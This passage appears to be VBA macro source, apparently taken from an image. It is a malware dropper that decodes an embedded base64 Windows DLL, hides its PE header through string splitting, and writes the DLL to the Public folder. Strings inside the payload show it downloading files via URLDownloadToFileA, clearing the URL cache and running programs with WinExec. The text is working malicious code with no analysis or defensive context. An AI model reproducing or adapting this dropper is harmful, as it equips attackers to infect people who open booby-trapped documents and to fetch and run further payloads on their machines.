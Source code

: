 ```
    lgstr = lgstr & "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA"
    lgstr = lgstr & "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAQAAAgAAAABTALMBYwHTAtMDIwODBDMEowYzB6MAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA"
    lgstr = lgstr & "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA"
    lgstr = lgstr & "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA"
    FuEmdPath1 = Environ("PUBLIC") & "\sl1.tmp"
    em.Text = lgstr
    em.DataType = "bin.base64"
    Stream.Type = 1
    Stream.Open

    Stream.Write em.NodeTypedValue
    Stream.SaveToFile FuEmdPath1, 2
    lgstr = "T" & "V" & "qQA" & "AMAAAA"
    lgstr = lgstr & "EAAAA//8AALgAAAAAAAAAQAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA2AAAAA4fug4AtAnNIbgBTM0hVGhpcyBwcm9ncmFtIGNhbm5vdCBiZSBydW4gaW4gRE9TIG1vZGUuDQ0KJAAAAAAAAADdY4TFmQLqlpkC6paZAuqWRP0hlpoC6paZAuuWnQLqlmtb45ebAuqWa1vql5gC6pZrW+iXmALqllJpY2iZAuqW"
    lgstr = lgstr & "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAUEUAAGSGAwBgjOFdAAAAAAAAAADwACIgCwIOAAACAAAABgAAAAAAAAAAAAAAEAAAAAAAgAEAAAAAEAAAAAIAAAYAAAAAAAAABgAAAAAAAAAAQAAAAAQAAAAAAAACAGABAAAQAAAAAAAAEAAAAAAAAAAAEAAAAAAAABAAAAAAAAAAAAAAEAAAAKAhAABaAAAA/CEAACgAAAAAAAAAAAAAAAAwAAAMAAAA"
    lgstr = lgstr & "AAAAAAAAAAAAAAAAAAAAAIAgAAA4AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAgAAAoAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAALnRleHQAAAC8AAAAABAAAAACAAAABAAAAAAAAAAAAAAAAAAAIAAAYC5yZGF0YQAAmAIAAAAgAAAABAAAAAYAAAAAAAAAAAAAAAAAAEAAAEAucGRhdGEAAAwAAAAAMAAA"
    lgstr = lgstr & "AAIAAAAKAAAAAAAAAAAAAAAAAABAAABAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA"
    lgstr = lgstr & "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA"
    lgstr = lgstr & "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAEiJXCQISIl0JBBXSIPsMEiNDRoQAABJi/FJi/j/FfYPAABIi9hIhcB0I0iNFQ8QAABIi8j/FcYPAABIhcB0BUiLz//QSIvL/xW7DwAASI0NBBAAAP8Vvg8AAEiL2EiFwHQ0SI0V/w8AAEiLyP8Vjg8AAEiFwHQWRTPJSMdEJCAA"
    lgstr = lgstr & "AAAATIvGSIvXM8n/0EiLy/8Vcg8AAEiLXCRASIt0JEhIg8QwX8PMzMzMzMzMzMzMM9JJi8lI/yVUDwAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA"
    lgstr = lgstr & "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA"
    lgstr = lgstr & "YCIAAAAAAAByIgAAAAAAAIAiAAAAAAAAUCIAAAAAAAAAAAAAAAAAAAAAAAAAAAAAV2luaW5ldC5kbGwAAAAAAERlbGV0ZVVybENhY2hlRW50cnlBAAAAAFVybG1vbi5kbGwAAAAAAABVUkxEb3dubG9hZFRvRmlsZUEAAAAAAAAAAAAAYIzhXQAAAAANAAAA1AAAALggAAC4BgAAAAAAAGCM4V0AAAAADgAAAAAAAAAAAAAAAAAAAEdDVEwAEAAA"
    lgstr = lgstr & "vAAAAC50ZXh0JG1uAAAAAAAgAAAoAAAALmlkYXRhJDUAAAAAMCAAAIgAAAAucmRhdGEAALggAADUAAAALnJkYXRhJHp6emRiZwAAAIwhAAAQAAAALnhkYXRhAACgIQAAWgAAAC5lZGF0YQAA/CEAABQAAAAuaWRhdGEkMgAAAAAQIgAAFAAAAC5pZGF0YSQzAAAAACgiAAAoAAAALmlkYXRhJDQAAAAAUCIAAEgAAAAuaWRhdGEkNgAAAAAAMAAA"
    lgstr = lgstr & "DAAAAC5wZGF0YQAAAQ8GAA9kCQAPNAgAD1ILcAAAAAAAAAAAX4zhXQAAAADcIQAAAQAAAAIAAAACAAAAyCEAANAhAADYIQAAsBAAAAAQAADyIQAA9iEAAAAAAQBVcmxEb3dubG9hZFRvRmlsZS5kbGwAUkNQAFJDVAAAACgiAAAAAAAAAAAAAIoiAAAAIAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAYCIAAAAAAAByIgAAAAAAAIAiAAAAAAAA"
    lgstr = lgstr & "UCIAAAAAAAAAAAAAAAAAAKgDTG9hZExpYnJhcnlBAACkAkdldFByb2NBZGRyZXNzAACkAUZyZWVMaWJyYXJ5AN4FV2luRXhlYwBLRVJORUwzMi5kbGwAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA"
    lgstr = lgstr & "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA"
    lgstr = lgstr & "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAQAACmEAAAjCEAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA"
```